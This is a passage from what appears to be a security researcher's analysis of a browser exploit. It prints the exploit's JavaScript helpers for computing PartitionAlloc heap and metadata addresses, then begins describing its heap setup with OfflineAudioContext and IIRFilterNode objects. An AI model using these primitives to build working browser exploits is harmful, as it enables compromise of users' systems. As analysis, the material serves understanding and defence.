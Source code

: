 function getPartitionPageBaseWithinSuperPage(addr, partitionPageIndex) {
	let superPageBase = getSuperPageBase(addr);
	let partitionPageBase = partitionPageIndex << BigInt(14);
	let finalAddr = superPageBase + partitionPageBase;
	return finalAddr;
}
 
function getPartitionPageIndex(addr) {
	let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
	let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
	return partitionPageIndex;
}
 
function getMetadataAreaBaseFromPartitionSuperPage(addr) {
	let superPageBase = getSuperPageBase(addr);
	let systemPageSize = BigInt(0x1000);
	return superPageBase + systemPageSize;
}
 
function getPartitionPageMetadataArea(addr) {
	let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
	let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
	let pageMetadataSize = BigInt(0x20);
	let partitionPageMetadataPtr = getMetadataAreaBaseFromPartitionSuperPage(addr) + partitionPageIndex * pageMetadataSize;
	return partitionPageMetadataPtr;
}




123456789101112131415161718192021222324252627282930313233

function getSuperPageBase(addr) { let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1); let superPageBaseMask = ~superPageOffsetMask; let superPageBase = addr & superPageBaseMask; return superPageBase;} function getPartitionPageBaseWithinSuperPage(addr, partitionPageIndex) { let superPageBase = getSuperPageBase(addr); let partitionPageBase = partitionPageIndex << BigInt(14); let finalAddr = superPageBase + partitionPageBase; return finalAddr;} function getPartitionPageIndex(addr) { let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1); let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14); return partitionPageIndex;} function getMetadataAreaBaseFromPartitionSuperPage(addr) { let superPageBase = getSuperPageBase(addr); let systemPageSize = BigInt(0x1000); return superPageBase + systemPageSize;} function getPartitionPageMetadataArea(addr) { let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1); let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14); let pageMetadataSize = BigInt(0x20); let partitionPageMetadataPtr = getMetadataAreaBaseFromPartitionSuperPage(addr) + partitionPageIndex * pageMetadataSize; return partitionPageMetadataPtr;}




It’s interesting that the exploit also uses the relatively new built-in BigInt class to handle 64-bit values; authors usually use their own primitives in exploits.
At first, the code initiates OfflineAudioContext and creates a huge number of IIRFilterNode objects that are initialized via two float arrays.



